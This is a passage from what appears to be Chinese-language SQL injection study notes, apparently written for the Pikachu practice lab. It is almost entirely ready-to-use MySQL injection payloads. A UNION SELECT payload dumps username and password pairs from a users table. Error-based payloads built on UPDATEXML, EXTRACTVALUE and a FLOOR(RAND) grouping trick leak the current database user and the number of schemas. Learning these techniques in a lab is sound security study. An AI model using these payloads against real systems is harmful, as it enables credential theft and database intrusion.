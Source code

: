 显示指定数据库中指定数据表中指定字段的所有数据

```
' UNION SELECT (SELECT GROUP_CONCAT(username, 0x3A, password) FROM pikachu.users), 2 -- 
```

显示当前数据库中指定数据表中指定字段的所有数据

```
' UNION SELECT (SELECT GROUP_CONCAT(username, 0x3A, password) FROM users), 2 -- 
```

## 6. Error

> 主要用于  INSERT/UPDATE 或 DELETE

以下示例用的是字符型

```
' OR UPDATEXML(1, CONCAT(0x7e, USER(), 0x7e), 0) OR '
```

若是数字型要改为

```
 OR UPDATEXML(1, CONCAT(0x7e, USER(), 0x7e), 0)
```

### 6.1. Location

判断是否有回显

```
' OR UPDATEXML(1, CONCAT(0x7e, USER(), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, USER(), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, USER(), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

### 6.2. Database

显示数据库的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.SCHEMATA), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.SCHEMATA), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.SCHEMATA), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```
